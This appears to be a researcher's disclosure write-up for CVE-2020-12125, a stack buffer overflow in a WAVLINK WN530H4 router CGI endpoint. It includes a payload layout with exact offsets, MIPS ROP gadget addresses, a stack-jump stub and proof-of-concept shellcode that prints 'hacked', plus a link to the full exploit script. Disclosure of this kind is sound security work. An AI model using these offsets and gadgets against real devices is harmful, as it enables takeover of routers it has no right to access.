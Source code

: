 ```yaml
---
year: 2020
cveid: CVE-2020-12125
product: "WAVLINK WN530H4"
vulnerability: "Buffer Overflow"
publish: true
category: bugs
layout: bug-report
---
```


This vulnerability is a Buffer Overflow vulnerability in the WAVLINK WN530H4 router.

There is a buffer overflow vulnerability in <kbd>/cgi-bin/makeRequest.cgi</kbd>. The overflow occurs in the main function, where it reads the <kbd>CONTENT_LENGTH</kbd> environmental variable that comes from a POST request in the browser. There is an <kbd>fgets</kbd> call at <kbd>0x406888</kbd> that reads an arbitrarily long string of size <kbd>CONTENT_LENGTH</kbd> into a fixed buffer on the stack of size 512.

We can replicate this bug in GDB for testing purposes. As seen, the instruction pointer on the stack is overwritten with a series of "A" characters (ascii <kbd>0x41</kbd>) and the CPU attempts to jump to this address after popping it off the stack.

![Overrun Buffer]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-1.png" | relative_url}})

Armed with this knowledge, we can formulate our payload. Because ASLR is enabled for libraries and for the stack, we must utilize ROP to jump to our payload. Fortunately for us, DEP is not enabled, making the stack executable.

Return Oriented Programming (ROP) is a technique in which addresses in the program’s instruction memory are utilized to perform an attack. This is useful for when ASLR only randomizes stack space and not instruction space, like in this case. ROP is generally more useful with larger binaries, which is the case for the makeRequest.cgi binary.

In this case, we will use ROP to jump to the stack. To do this, we need to find special sections of code, called “gadgets” that perform useful tasks. I am trying to find a sequence of gadgets that allow us to jump to a particular stack location. Fortunately, I found a sequence of gadgets that increment the stack pointer, and then jump to a location on the stack that we control.

To craft this attack, we must place addresses on the stack in specific locations. Fortunately, we can predict what the stack will look like. We know that 564 characters can overflow the buffer before the first return pointer is overwritten. Additionally, the stack pointer will point to the first four bytes after the return address is overwritten. Essentially, we will have to craft an attack that looks like the table below.

Please note that this payload is sloppy, doesn't land 100% of the time, and can certainly be improved. This is mainly for proof of concept demonstration.

| Location         | Size        | Description                      | Data                       |
|------------------|-------------|----------------------------------|----------------------------|
| 0                | 0x11A bytes | Payload                          | ...                        |
| 0x11A            | 0x11A bytes | Data and padding                 | hacked\x0a                 |
| 0x234            | 0x04 bytes  | The address of the first gadget  | 0x4050d8                   |
| 0x238 ($sp)      | 0x94 bytes  | Aligning the next address        | “A”*0x94                   |
| 0x2CC ($sp+0x94) | 0x04 bytes  | The address of the second gadget | 0x40214c                   |
| 0x2D0 ($sp+0x98) | 0x20 bytes  | Aligning the next address        | “A”*0x20                   |
| 0x2F0 ($sp+0xB8) | 0x18 bytes  | We can only run 6 instructions.  | ...                        |
| 0x308 ($sp+0xD0) | 0x04 bytes  | The stack address to jump to     | (predetermined at runtime) |

As noted in the table, there are two ROP gadgets. The first is at address <kbd>0x4050d8</kbd> and the second is at <kbd>0x40214c</kbd>

First gadget at <kbd>0x4050d8</kbd>

<pre>
<code>
lw      $ra, 0x94($sp)
lw      $s2, 0x90($sp)
lw      $s1, 0x8C($sp)
lw      $s0, 0x88($sp)
jr      $ra
addiu   $sp, $sp, 0x98
</code>
</pre>

Second gadget at <kbd>0x40214c</kbd>

<pre>
<code>
lw      $ra, 0x38($sp)
lw      $s3, 0x34($sp)
lw      $s2, 0x30($sp)
lw      $s1, 0x2C($sp)
lw      $s0, 0x28($sp)
jr      $ra
addiu   $sp, $sp, 0x40
</code>
</pre>

Next, we have to come up with an adequate payload. At <kbd>0x2F0</kbd>, we will construct a payload that jumps to a bigger area on the stack that we control, shown below.

<pre>
<code>
addiu   $ra,$ra,-752
jr      $ra
</code>
</pre>

At this point, the CPU jumped to the location of our real payload. The attack payload simply writes 7 bytes hacked\a to standard out (FD 1). It additionally allows for up to 1000 bytes to be written to standard out, allowing the attacker to increase their payload size. The code for this attack is seen below.

<pre>
<code>
addiu   $sp, $ra, 0x11A
li      $v0, 4004
li      $a0, 1
move    $a1, $sp
li      $a2, 1000
syscall                 ; write(1, $sp, 1000)
nop
nop
li      $v0, 4001
xor     $a0, $a0, $a0
syscall                 ; exit(0)
nop
nop
</code>
</pre>

After compiling the payload, we can submit it as data to the web-server under the <kbd>makeRequest.cgi</kbd> endpoint. Unfortunately, the code does not execute with certainty 100% of the time. I believe this is due to the stack address that the program attempts to jump to; it may not be completely deterministic. However, we can execute the payload more than once if we encapsulate it in a script.

Below we show the attack in action. Of course, a nefarious user could change the shellcode to be even worse.

![Attack]({{"/assets/img/posts/2020-05-01-CVE-2020-12125-img-2.png" | relative_url}})

The final script is located on my [GitHub](https://github.com/cernec1999/WAVLINK-Exploits/blob/master/overflow.py).

For more information and vulnerability analysis, please see [my report on the WAVLINK WN530H4]({{"/assets/reports/report_wavlink.pdf" | relative_url}}).
